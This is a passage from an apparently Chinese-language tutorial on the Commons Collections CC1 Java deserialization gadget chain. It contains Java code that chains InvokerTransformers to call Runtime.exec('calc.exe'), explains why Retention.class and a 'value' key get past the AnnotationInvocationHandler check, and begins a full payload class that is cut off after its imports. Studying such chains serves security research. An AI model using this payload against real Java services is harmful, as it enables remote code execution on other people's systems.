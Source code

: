 ```java
        new InvokerTransformer("getMethod", new Class[] { String.class,Class[].class }, new Object[] { "getRuntime",new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class,Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class },
        new String[] {
        "calc.exe" }),
    };
    Transformer transformerChain = newChainedTransformer(transformers);
    Map innerMap = new HashMap();
    innerMap.put("godown","buruheshen");
    Map outerMap = TransformedMap.decorate(innerMap, null,transformerChain);
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
    construct.setAccessible(true);
    Object obj = construct.newInstance(Retention.class, outerMap);

    ByteArrayOutputStream barr = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(barr);
    oos.writeObject(obj);
    oos.close();
    }
}


```

其实到这里逻辑上已经很合理了。但是还没有解释为什么反射生成AnnotationInvocationHandler对象obj的时候向构造函数传的参是Retention.class。这是因为在通往setValue的时候遇到了问题，在AnnotationInvocationHandler的readObject时需要经过一个if判断才能继续setValue。

```java
if (var7 != null) {
	Object var8 = var5.getValue();
	if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
    }
}
```

绕过这个if判断的条件就是

​	1.AnnotationInvocationHandler构造函数第一个参数是Annotation子类且包含至少一个方法，假设为X。

​	2.TransformedMap.decorate绑定的Map中有一个X元素

Retention.class就符合子类和至少一个方法的条件。方法叫value，所以`innerMap.put("value","buruheshen");`

完整payload就是改一下put元素,在最后readobject序列化对象触发

```java
package org.example;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;
public class CC1 {
```